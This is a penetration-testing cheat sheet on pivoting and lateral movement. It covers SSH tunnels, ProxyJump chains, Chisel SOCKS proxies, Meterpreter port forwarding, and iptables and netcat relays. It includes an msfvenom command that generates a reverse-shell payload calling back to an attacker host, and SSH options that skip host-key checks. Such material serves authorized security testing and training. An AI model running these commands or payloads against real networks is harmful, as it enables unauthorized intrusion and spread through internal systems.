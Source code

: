 # Pivoting/Lateral Movement

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents. You accept full responsibility for your actions by applying any knowledge gained here.
{% endhint %}

{% hint style="danger" %}
Not much here yet...please feel free to contribute at [my GitHub page](https://github.com/zweilosec/Infosec-Notes).
{% endhint %}

## SSH Tunneling 101

<pre class="language-bash"><code class="lang-bash"># SSH local port forward to reach  an_internal_server_ip:port via server_ip
ssh tunneler@server_ip -p 2222 -L 1234:an_internal_server_ip:80 
# Now curl localhost:1234 will fetch an_internal_server_ip:80 which is reachable from server_ip only

# dynamic port forward to create a SOCKS proxy to visit any_internal_server_ip
ssh tunneler@server_ip -p 2222 -D 1080 

# next config proxychains socks4a localhost 1080; 
proxychains curl http://any_internal_server_ip/ #was reachable from server_ip only

# ProxyJump ssh to an_internal_host via ssh server_ip
ssh -J tunneler@server_ip:2222 faruser@an_internal_host # which is only accessible from server_ip

# SSH remote port forward to send traffic back to our local port from a port of server_ip
ssh faruser@server_ip -p 2222 -L 58671:localhost:1234
# this will listen on port 58671 of server_ip and tunnel the traffic back to us on loclahost:1234; nc -nlvp 1234 to receive for example

# Chain ProxyJump + dynamic port forward to create a proxy of 2nd_box which is only accessible via 1st_box
ssh -j firstuser@1st_box:2222 seconduser@2nd_box -D 1080
<strong>
</strong><strong># next config proxychains socks4a localhost 1080; 
</strong><strong>proxychains curl http://any_internal_server_ip/ #was reachable from 2nd_box only
</strong>
# bypass first time prompt when have non-interactive shell
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"

</code></pre>

### SSH reverse tunneling

```bash
ssh -f -N -R 8000:10.3.3.14:80 -R 4443:10.3.3.14:443 -R 33306:10.3.3.14:3306 -R 33389:10.3.3.14:3389  -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i key kali@192.168.19.57

# kill with
ps -C ssh
kill -9 <pid>
```

### **If you already have an SSH session**

```bash
-R 8081:172.24.0.2:80 # (on my Kali machine listen on 8081, get it from 172.24.0.2:80)
# <KALI 10.1.1.1>:8081<------------<REMOTE 172.24.0.2>:80
# Now you can access 172.24.0.2:80, which you didn't have direct access to


-L 8083:127.0.0.1:8084 # (on your machine listen on 8083, send it to my Kali machine on 8084)
# <KALI 127.0.0.1>:8084<------------<REMOTE 10.1.1.230>:8083<------------<REMOTE X.X.X.X>:XXXX
# run nc on port 8084, and if 10.1.1.230:8083 receives a reverse shell, you will get it

#For reverse shell:
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.1.1.230 LPORT=8083 -f exe -o shell
#Run it on 2nd remote target to get a shell on Kali
```

### **If you don't have an SSH session**

First, SSH to your Kali from target machine

On Kali:

```bash
service ssh start 
# add a user, give it /bin/false in /etc/passwd as the login shell
ssh - -R 12345:192.168.122.228:5986 test@10.1.1.1
```

### Using Metasploit

Get meterpreter session, then:

```bash
portfwd add -l 4445 -p 4443 -r 10.1.1.1
# Use -R to make it reverse
```

## Using DYNAMIC Port Forwarding ("one port to any")

*   setup proxychains with socks5 on 127.0.0.1:1080

    * Or set up socks5 proxy on firefox

    > For nmap use `-Pn -sT` or use tcp scanner in msf

```
ssh -i bobs.key -p 2222 bob@10.10.10.123 -D1080
```

### Using Chisel

```bash
#On Kali:
./chisel server -p 8000 -reverse

#On Target:
./chisel client 10.1.1.1:8000 R:8001:127.0.0.1:1080
./chisel server -p 8001 --socks5

#On Kali:
./chisel client 127.0.0.1:8001 socks
```

### Using Metasploit

* Get meterpreter session on one of the dual homed machines
* Auto route (multi/manage/autoroute)
* Start socks proxy (auxiliary/server/socks4a)

## Forward ports using built-in firewall

### Using iptables

To set up a port forwarder using iptables run the below commands as root (or with sudo).

```bash
echo '1' > /proc/sys/net/ipv4/conf/eth0/forwarding
iptables -t nat -A PREROUTING -p tcp -i eth0 --dport $lport -j DNAT --to-destination $ip:$rport
iptables -A FORWARD -p tcp -d $ip --dport $rport -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
```

## Port Forwarding with netcat

Forward traffic using netcat and a named pipe.

```bash
mknod $mypipe p
nc -l -p $lport < $mypipe | nc $ip $rport > $mypipe
```

